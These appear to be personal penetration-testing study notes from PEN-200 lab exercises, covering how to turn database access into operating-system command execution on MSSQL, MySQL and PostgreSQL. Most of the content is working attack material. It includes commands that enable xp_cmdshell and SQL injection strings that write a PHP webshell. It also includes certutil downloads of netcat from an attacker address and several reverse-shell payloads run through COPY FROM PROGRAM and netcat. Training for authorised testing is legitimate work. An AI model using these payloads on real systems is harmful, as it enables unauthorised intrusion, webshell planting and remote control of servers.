 ## MSSQL 
```shell
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE; # RECONFIGURE applys the configuration against the SERVER

EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
```

## MySQL
* MySQL doesn't offer a direct OS CMD function
* Requires File Location to be writeable to the OS user running the DB software
* Create a WebShell, via SQL Select, to writeable file location
* SQUID box used this

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
' # Results in 
<? system($_REQUEST['cmd']); ?>

http://<IP>/tmp/webshell.php?cmd=id # Execute via WEB

# Validate webshell works
curl "http://<IP>/tmp/webshell.php?cmd=whoami"  
# Stage NC on target
curl "http://<IP>/tmp/webshell.php?cmd=certutil+-urlcache+-f+http://192.168.45.167/nc.exe+nc.exe" 
# Connect back to our attacker
curl "http://<IP>/tmp/webshell.php?cmd=nc.exe+192.168.45.167+4441+-e+powershell.exe"  

PEN200 10.3.2 Q5
Inserting this into the DB
mail-list=' UNION SELECT  null, null, null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/webshell.php" -- // 
In browser/curl/Burp
http://192.168.194.48/webshell.php?cmd=nc%20192.168.45.241%204444%20-e%20/bin/sh
```

## Postgress  
-  Pen-200 10.3.2 Q610.3.2 Q6  LAB had this SQLi blind injection
```
COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’;

OS COMMAND INJECTION
Pen-200 10.3.2 Q6  LAB had this SQLi blind injections
weight=1&height='; DROP TABLE IF EXISTS commandexec ; CREATE TABLE commandexec(data text) ; COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.45.245 443' ; -- 

Optionally URL encode with Burp, height was entry point for this SQLi
weight=1&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.241+4444'%3b--&age=24&gender=Male&email=test%40offsec.com  
```

---

## **Resources**
- https://www.offsec.com/blog/postgresql-exploit/
- https://book.hacktricks.wiki/en/pentesting-web/sql-injection/postgresql-injection/index.html
- https://pentestmonkey.net/category/cheat-sheet/sql-injection 
- https://www.advania.co.uk/blog/security/mysql-sql-injection-practical-cheat-sheet/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet 
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html 